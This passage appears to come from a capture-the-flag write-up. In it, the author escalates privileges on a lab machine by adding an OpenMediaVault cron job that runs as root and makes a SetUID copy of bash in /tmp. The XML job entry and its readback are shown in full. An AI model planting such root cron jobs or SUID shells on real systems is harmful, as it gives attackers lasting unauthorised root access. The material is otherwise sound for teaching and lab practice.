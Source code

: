 I’ll copy it to make an uncommented version, and fill it in, with the following discoveries via trial and error:
- A `uuid` is required and it has to be a valid UUID, but any UUID seems to work. I’ll generate one [here](https://www.uuidgenerator.net/version4).
- I’ll use `exactly` as the `execution` as it was better than any of the others.
- I’ll use `userdefined` as the type as it’s better than the others.
- I’ll set `*` for all the items, and then leave the `everyminute`, `everyhour`, and `everydayofmonth` fields as `0`. I tried it as `1` and it didn’t seem to work.
- I’ll set the command to create a SetUID `bash` binary.

```

<job>
    <uuid>b8068c15-0d5e-4d38-a7d0-6885a31c8a53</uuid>
    <enable>1</enable>
    <execution>exactly</execution>
    <sendemail>0</sendemail>
    <type>userdefined</type>
    <comment>xxx</comment>
    <minute>*</minute>
    <everynminute>0</everynminute>
    <hour>*</hour>
    <everynhour>0</everynhour>
    <dayofmonth>*</dayofmonth>
    <everyndayofmonth>0</everyndayofmonth>
    <month>*</month>
    <dayofweek>*</dayofweek>
    <username>root</username>
    <command>cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf</command>
</job>

```

After saving, I’ll read back the data using `omv-confdbadm`:

```

openmediavault-webgui@derailed:/etc/openmediavault$ /sbin/omv-confdbadm read --prettify conf.system.cron.job
[
    {
        "command": "cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf",
        "comment": "xxx",
        "dayofmonth": "*",
        "dayofweek": "*",
        "enable": true,
        "everyndayofmonth": false,
        "everynhour": false,
        "everynminute": false,
        "execution": "exactly",
        "hour": "*",
        "minute": "*",
        "month": "*",
        "sendemail": false,
        "type": "userdefined",
        "username": "root",
        "uuid": "b8068c15-0d5e-4d38-a7d0-6885a31c8a53"
    }
]

```
